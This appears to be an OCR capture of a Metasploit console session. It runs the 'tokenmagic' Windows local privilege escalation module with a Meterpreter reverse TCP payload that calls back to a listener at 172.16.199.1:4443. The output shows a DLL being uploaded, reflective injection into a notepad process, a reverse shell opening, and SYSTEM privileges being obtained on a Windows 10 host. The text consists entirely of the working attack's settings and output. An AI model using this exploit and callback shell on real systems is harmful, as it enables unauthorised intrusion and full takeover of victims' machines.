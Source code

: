 ```
Note that the System Orchestrator service which loads the overwritten DLL when using the DLL method can take up to 10
minutes to trigger (Accepted: SERVICE, DLL)
   SERVICE_FILENAME  IfoTziL          no        Filename for Service Payload (Random by default).
   SERVICE_NAME      NTSHIUUVp        no        Service Name to use (Random by default).
   SESSION           1                yes       The session to run this module on.
   WRITABLE_DIR                       no        Directory to write file to (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 1
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\WindowsCoreDeviceInfo.dll
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing TokenMagic PowerShell script
[*] Trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 7728 launched.
[*] Reflectively injecting the trigger DLL into 7728...
[+] Trigger injected.
[+] Payload injected. Starting thread...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[+] Enjoy the shell!
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 2 opened (172.16.199.1:4443 -> 172.16.199.135:49803) at 2021-05-14 12:52:58 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
